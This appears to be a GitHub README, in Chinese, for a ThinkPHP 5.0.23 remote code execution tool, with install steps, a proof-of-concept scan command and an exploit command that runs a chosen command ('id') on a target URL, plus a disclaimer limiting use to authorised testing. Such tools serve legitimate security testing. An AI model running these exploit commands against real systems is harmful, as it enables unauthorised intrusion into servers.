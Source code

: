 ## thinkphp5.0.23 rce

## 安装

```
git clone https://github.com/1derian/thinkphp5-rce.git
cd thinkphp5-rce
pip3 install -r requirements.txt
```

## 使用

poc

```
python3 tppoc.py -u http://www.xxx.com
```

exp

```
python3 tpexp.py -u http://www.xxx.com -c id
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。